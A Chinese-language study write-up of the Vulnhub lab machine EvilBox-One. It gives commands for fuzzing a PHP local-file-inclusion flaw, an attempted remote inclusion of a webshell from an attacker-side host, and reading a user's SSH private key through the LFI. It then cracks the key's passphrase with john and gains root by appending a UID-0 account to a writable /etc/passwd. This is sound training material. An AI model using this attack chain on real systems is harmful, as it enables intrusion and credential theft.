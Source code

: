 ```yaml
---
title: Chapter6_Easy_EvilBox_One
categories:
- Network_Security
- Vulnhub
- Chapter6
tags:
- Network_Security
- Vulnhub
---
```


# EvilBox_One 学习记录

## 1. 粗略学习记录

### 1.1 扫描打点 - PHP LFI

1. kali 自带的 fping 扫描
    `fping -gaq ip/cidr # g--generate a--alive q--quiet`
    ![image-20240201120011124](Easy_EvilBox/image-20240201120011124.png)

2. 扫描端口：
    ![image-20240201120047911](Easy_EvilBox/image-20240201120047911.png)

3. 路径爆破：
    ![image-20240201131818180](Easy_EvilBox/image-20240201131818180.png)
    尝试新工具：gobuster。
    gobuster 除了路径爆破，还会探测 CDN。其是用 go 语言编写的。
    `gobuster dir -u http://192.168.0.105 -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -x txt,php,html,jsp`
    ![image-20240201133031374](Easy_EvilBox/image-20240201133031374.png)

4. 访问一下，robots.txt 给了一串不明意义的字符串：`H4x0r`。/secret 访问是空白。
    ![image-20240201132104426](Easy_EvilBox/image-20240201132104426.png)

5. /secret 是新的路径，那么更换目标，再在 /secret 下进行目录爆破：
    ![image-20240201133327362](Easy_EvilBox/image-20240201133327362.png)

6. 访问 evil.php，结果还是空白。这时就要考虑进行参数爆破。除了 Burpsuite，这里使用 ffuf：
    `ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:param -w value.txt:value -u http://192.168.0.105/secret/evil.php?param=value -fs 0`，其中 value.txt 自己编辑，由常见的字符和符号组成。`-fs 0` 表示过滤掉页面为空的结果。是用的是 Burpsuite 的字典。
    ![image-20240201140607609](Easy_EvilBox/image-20240201140607609.png)
    结果没有结果。
    考虑是 PHP，往文件包含的思路靠拢，修改 value。
    `ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:param -u http://192.168.0.105/secret/evil.php?param=../index.html -fs 0`
    结果是有结果了：
    ![image-20240201141210002](Easy_EvilBox/image-20240201141210002.png)

7. 猜测是有文件包含漏洞，使用伪协议来读取 evil.php 的内容：
    ![image-20240201141536379](Easy_EvilBox/image-20240201141536379.png)
    解码后为：

    ```php
    <?php
        $filename = $_GET['command'];
        include($filename);
    ?>
    ```

8. 考虑 RFI 远程文件包含，在 kali 的 `/var/www/html` 下新建一句话，然后开启 apache2 服务：`systemctl start apache2`。访问：`evil.php?command=http://192.168.0.2/webshell.php?webshell=ls`。结果没有返回。因此目标可能只有 LFI 本地文件包含。

9. 试了一下 `input`，发现不能执行 PHP 代码。说明 `allow_url_include = false`。同样的 `filter` 也写入失败。

### 1.2 拿到 Shell - SSH 的公钥认证体系

1. 查看账户文件，有用户 mowree，使用 `ssh mowree@192.168.0.105 -v` 查看其可以登录的方式，结果有新发现：
    ![image-20240201145439517](Easy_EvilBox/image-20240201145439517.png)
    密码用 H4x0r 不行。这里看出有公钥的认证方式，因此思路就是：通过 SSH 公钥登录的用户，其主目录的 `.ssh/authorized` 中一般会有登录者的公钥。尝试访问：
    `command=/home/mowree/.ssh/authorized_keys`。结果如下：
    `ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAXfEfC22Bpq40UDZ8QXeuQa6EVJPmW6BjB4Ud/knShqQ86qCUatKaNlMfdpzKaagEBtlVUYwit68VH5xHV/QIcAzWi+FNw0SB2KTYvS514pkYj2mqrONdu1LQLvgXIqbmV7MPyE2AsGoQrOftpLKLJ8JToaIUCgYsVPHvs9Jy3fka+qLRHb0HjekPOuMiq19OeBeuGViaqILY+w9h19ebZelN8fJKW3mX4mkpM7eH4C46J0cmbK3ztkZuQ9e8Z14yAhcehde+sEHFKVcPS0WkHl61aTQoH/XTky8dHatCUucUATnwjDvUMgrVZ5cTjr4Q4YSvSRSIgpDP2lNNs1B7 mowree@EvilBoxOne`

2. 根据 SSH 公钥认证的流程，需要一台电脑创建 RSA 的公钥和私钥，其中公钥由服务器保管，私钥分发给授权的用户。如果 SSH 配对的公私钥是服务器创建的，那么其默认的私钥保存地址就是 `.ssh/id_rsa`，而公钥是 `.ssh/id_rsa.pub`。尝试访问 `.ssh/id_rsa`，结果如下：
    ![image-20240201151805457](Easy_EvilBox/image-20240201151805457.png)

3. 复制下来，先赋予权限：
    `chmod 600`。
    登录：
    `ssh mowree@192.168.0.105 -i id_rsa`

4. 然后还需要 passphrase，即私钥的密码。这个无法获取，因此考虑爆破：
    ```bash
    cp /usr/share/wordlists/rockyou.txt.gz . # 用这个密码文件来爆破
    gunzip rockyou.txt.gz # 解压
    cd /usr/share/john
    ./ssh2john.py /home/hacker/id_rsa > /home/hacker/桌面/hash # 将密钥文件进行处理，变成可以被 john 工具使用的文件。
    john /home/hacker/桌面/hash --wordlist=/home/hacker/桌面/rockyou.txt
    ```

    成功破解：
    ![image-20240201153517595](Easy_EvilBox/image-20240201153517595.png)
    尝试登录，成功！

5. 拿到第一个 flag：
    ![image-20240201154346570](Easy_EvilBox/image-20240201154346570.png)

### 1.3 提权 - 文件配置不当

1. 提权，常见的方法都不行。最终考虑一些可编辑的脚本文件，其执行时以 root 权限执行：
    ```bash
    find / -writable 2>/dev/null
    find / -writable 2>/dev/null | grep -v proc # 结果过滤
    ```

    最终发现异常：
    ![image-20240201160102054](Easy_EvilBox/image-20240201160102054.png)
    ![image-20240201160224501](Easy_EvilBox/image-20240201160224501.png)

2. 那最终目标就是操作 passwd 文件。一个方向就是修改 passwd，将 root 的密码占位符 `x` 换成自己生成的加盐密码，或者新建一个属于 root 组的账号。
    ![image-20240201161007238](Easy_EvilBox/image-20240201161007238.png)

    ![image-20240201161858594](Easy_EvilBox/image-20240201161858594.png)然后将这个密文复制并覆盖，这时影子文件中的密码将会失效。

3. 获取 flag：
    ![image-20240201161713975](Easy_EvilBox/image-20240201161713975.png)

4. 也可以通过建立账户来实现：
    `hacker:$1$ZY4xtyhY$aSKuj8Y8nbqvlYToyAsw9/:0:0:root:/root:/bin/bash` 写入。
    然后登录 hacker 即可。

## 2. 要点总结

1. 新主机发现工具 fping。
2. 新路径爆破工具 gobuster。
3. “子路径爆破”的思想。
4. 参数爆破工具 ffuf 与“参数爆破”的思想
5. SSH 公钥体系的渗透，SSH 公钥体系认证流程，私钥密码爆破。
6. /etc/passwd 文件的属性。
